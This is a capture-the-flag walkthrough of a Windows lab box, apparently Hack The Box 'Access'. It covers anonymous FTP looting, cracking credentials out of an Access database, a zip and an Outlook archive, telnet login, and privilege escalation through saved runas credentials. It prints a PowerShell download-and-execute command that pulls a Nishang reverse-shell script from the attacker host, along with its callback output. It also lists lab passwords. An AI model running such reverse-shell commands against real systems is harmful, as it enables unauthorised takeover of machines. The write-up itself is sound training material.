 1,Recon
port scan 
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Page check
![](images/Pasted%20image%2020241209075100.png)
It seems like nothing here.
So I would continue enumerating the valid web-contents
```
But seems like nothing of web-contents
```

By searching the `LON-MC6` from google, I found something interesting
```
MS09-042: Vulnerability in Telnet could allow remote code execution
```

ftp service
I have found we can login with anonymous user
```
Then we can get 2 files
backup.mdb Access Control.zip

PS:in this place, must use binary mode
For binary files like .mdb, this can lead to corrupted file contents. ASCII mode automatically converts line breaks (\n) to a platform-dependent format (such as \r\n on Windows), but this can corrupt the structure of binary files.

To ensure that the file transfer was correct, re-download the file using binary mode.

use status to check the mode
and if you want to change into binary, just in the ftp shell command binary
```

In this place, we can use `https://www.mdbopener.com/` to check the mdb file or use
`mdbtools` to check it.
![](images/Pasted%20image%2020241209081932.png)
Press the `auth user` and check the database
![](images/Pasted%20image%2020241209081647.png)

Then we can get the certification `admin” and “access4u@security” `

So let's continue to check the zip file and use the `access4u@security` as the password, we can successfully get the file `Access Control.pst`

I now have an Outlook email folder file:
```
 file Access\ Control.pst 
Access Control.pst: Microsoft Outlook email folder (>=2003)
```

Like the database, there are many ways to get to this data. I’ll convert it to mbox format using readpst (apt install readpst):
`readpst Access\ Control.pst`

Then we can read the mail clearly
```
Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John

```

So I guess we can use `security:4Cc3ssC0ntr0ller` to the service telnet
![](images/Pasted%20image%2020241209082723.png)
Then we can get the shell of user security

On the host, I’ll need to find that there are stored credentials for the administrator. There are two things that could tip me off to that. First, I could check the Public folder, and find a link file on the desktop:
```
C:\Users\Public>cd desktop

C:\Users\Public\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\Public\Desktop

08/22/2018  10:18 PM             1,870 ZKAccess3.5 Security System.lnk
               1 File(s)          1,870 bytes
               0 Dir(s)  16,682,262,528 bytes free

C:\Users\Public\Desktop>type "ZKAccess3.5 Security System.lnk"
LF@ 7#P/PO :+00/C:\R1M:Windows:M:*wWindowsV1MVSystem32:MV*System32X2P:
                                                                       runas.exe:1:1*Yrunas.exeL-KEC:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%
wN]ND.Q`Xaccess_8{E3Oj)H)ΰ[_8{E3Oj)H)ΰ[  1SPSXFL8C&me*S-1-5-21-953262931-566350628-63446256-500
```

I’m particularly interested in:
`C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred`

It’s a bit jumbled, but I see that it’s calling runas and using the /savedcred flag. That suggests to me that creds are cached for the Administrator account.

To check that assumption, or just as part of enumeration before finding the link file, I can run cmdkey /list:
```
C:\Users\Public\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

```
runas 是 Windows 操作系统中的一个命令行工具，用于以其他用户的身份（通常是管理员）运行程序或命令。它类似于 Linux 系统中的 sudo 或 su 命令，允许您在不同权限上下文中执行操作。

runas [参数] /user:用户名称 "程序或命令"

runas /user:Administrator "cmd.exe"

```

First, I’ll clone a copy of Nishang from github if I don’t already have it.
If I open up the PowerShell script and look at the usage, I’ll see that I want to do a reverse shell, so something like this:
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```
I’m going to have the Access box iex this script. As it is by default, that will just load all the functions in this script into the current PowerShell session. But I want to actually run one of those function. So I’ll add that line to the bottom of the script:
```
root@kali# tail Invoke-PowerShellTcp.ps1 
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 443
```

Now I’ll use my telnet shell to execute:
```
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.16.10/Invoke-PowerShellTcp.ps1')"
```

I see the callback in my nc window:
```
root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.98] 49164
Windows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
access\administrator
```

In other words, here, runas is mainly used to elevate permissions and execute remote reverse shell to get SYSTEM.